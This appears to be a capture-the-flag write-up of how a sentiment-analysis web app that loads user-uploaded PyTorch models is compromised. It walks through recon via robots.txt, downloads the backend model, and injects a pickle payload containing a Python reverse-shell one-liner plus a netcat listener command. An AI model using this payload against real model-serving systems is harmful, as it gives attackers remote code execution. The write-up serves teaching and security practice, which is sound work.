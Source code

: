 # Persuade CTF :arrow_forward: Solution

Lets explore the application :eyes:, it has an Upload and Analyze function. Application is expecting file with .pt extension. With a bit of googling we can know that .pt files are machine learning models created with PyTorch.

Looking at the Analyze function, we have the option to select the already available model "safe_model.pt" from dropdown menu and input a statement for sentiment analysis :computer:.

![Alt text](../Images/Web_App1.PNG?raw=true "Web_App1")

![Alt text](../Images/Web_App2.PNG?raw=true "Web_App2")

Well, that's it. We just know application can do sentiment analysis on user inputs on custom models provided by the user or its on in-build model. But we don't know what model is already available in the application expect its name, which is a custom name and of no use :no_good: for us.

Hmmm... Maybe we will start with a normal dirb to get more info, if application is hiding :alien: something in its directories.

![Alt text](../Images/Dirb_Scan.PNG?raw=true "Dirb_Scan")

Looks like application has robots.txt :page_facing_up:, Ah classic..

![Alt text](../Images/Robots_txt.PNG?raw=true "Robots_txt")

Base64 encoded string (L2JhY2tlbmRfZG9jcy9teWZpbGUudHh0==) sure looks interesting, lets decode it.

![Alt text](../Images/base64.PNG?raw=true "base64")

Yep, its an URL path to a txt file, will access the same in browser.

![Alt text](../Images/backend_docs.PNG?raw=true "backend_docs")

This looks like a break through. This can be actual name of the model used in the application. Only one way to know. A quick google search :mag: reveals cardiffnlp/twitter-roberta-base-sentiment is model available in https://huggingface.co/cardiffnlp/twitter-roberta-base-sentiment :boom:. 

That's again good news, at least its not a rabbit hole :rabbit:. And huggingface has code to download and use the model. 

![Alt text](../Images/huggingface.PNG?raw=true "huggingface")

Lets download the model. Had been always in love :sparkling_heart: with Google Colab for running code related to machine learning.

```python
#Note: This code works well in Google Colab
  
!pip install -q torch==2.0.1
!pip install -q transformers==4.31.0
!pip install -q scipy==1.11.1

import torch
import os
from transformers import AutoModelForSequenceClassification

# Save a model for sentiment analysis
model_directory = "SavedModels"
if not os.path.isdir(model_directory):
    os.mkdir(model_directory)

safe_model_path = os.path.join(model_directory, "saved_model.pt")

task = "sentiment"
MODEL = f"cardiffnlp/twitter-roberta-base-{task}"
# PT
model = AutoModelForSequenceClassification.from_pretrained(MODEL)
torch.save(model,safe_model_path)import torch
import os
from transformers import AutoModelForSequenceClassification

# Save a model for sentiment analysis
model_directory = "SavedModels"
if not os.path.isdir(model_directory):
    os.mkdir(model_directory)

safe_model_path = os.path.join(model_directory, "saved_model.pt")

task = "sentiment"
MODEL = f"cardiffnlp/twitter-roberta-base-{task}"
# PT
model = AutoModelForSequenceClassification.from_pretrained(MODEL)
torch.save(model,safe_model_path)
```

Now we have the model (saved_model.pt) which is used by the application in its backend. What's next :question: Remember how we identified in beginning that .pt files are machine learning models created with PyTorch. Maybe exploring PyTorch gives us some hints :zap:. Two particular methods (torch.save https://pytorch.org/docs/stable/generated/torch.save.html & torch.load https://pytorch.org/docs/stable/generated/torch.load.html) from PyTorch looks interesting. Below snippet is taken from PyTorch docs which tells us while a model is being loaded in the application PyTorch uses pickle module :file_folder: for deserializing the model file.

![Alt text](../Images/torch_issue.PNG?raw=true "torch_issue")

If you are into security domain, you should know how dangerous :skull: pickle module can be. Back into our CTF, we know application accepts custom model file from user and load that file for sentiment analyzes using PyTorch. Maybe the downloaded model is already malicious :japanese_ogre:, lets make sure its not using modelscan https://github.com/protectai/modelscan. 

`modelscan -p safe_model.pt`

![Alt text](../Images/modelscan.PNG?raw=true "modelscan")

Its not a malicious model after all :exclamation:. But we know there is a possibility for us to make a malicious model file with PyTorch and pickle module. Yet how can we make a model? :thought_balloon: We don't have enough training data or even enough hardware requirements to build and train a model. No worries, we can leverage modelscan's https://github.com/protectai/modelscan/blob/main/notebooks/utils/pickle_codeinjection.py to build a malicious model. We can tweak the saved model (saved_model.pt) to have malicious character. Lets head into Colab once more and execute below code blocks in same notebook you used to download safe_model.pt

`!git clone https://github.com/protectai/modelscan.git`

```python
#Note: This code works well in Google Colab

from modelscan.notebooks.utils.pickle_codeinjection import PickleInject, get_payload

command = "system"
malicious_code = """python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    """

unsafe_model_path = os.path.join(model_directory, "unsafe_model_pyshell.pt")

payload = get_payload(command, malicious_code)
torch.save(
    torch.load(safe_model_path),
    f=unsafe_model_path,
    pickle_module=PickleInject([payload]),
)
```

And we got our malicious model (unsafe_model_rshell.pt) :space_invader:. Lets try that in the application. Before that make sure, you have a listener up `nc -lvnp 9000`

Hurray :sunglasses:, once we upload model unsafe_model_rshell.pt in application and select that model to run the sentiment analysis on a statement, we can see the application loads our model with torch.load which unpickles our arbitrary code in model and gives us a reverse shell plus proper sentiment analysis result in web application. 

![Alt text](../Images/Unsafemodel_1.PNG?raw=true "Unsafemodel_1")

![Alt text](../Images/Unsafemodel_2.PNG?raw=true "Unsafemodel_2")
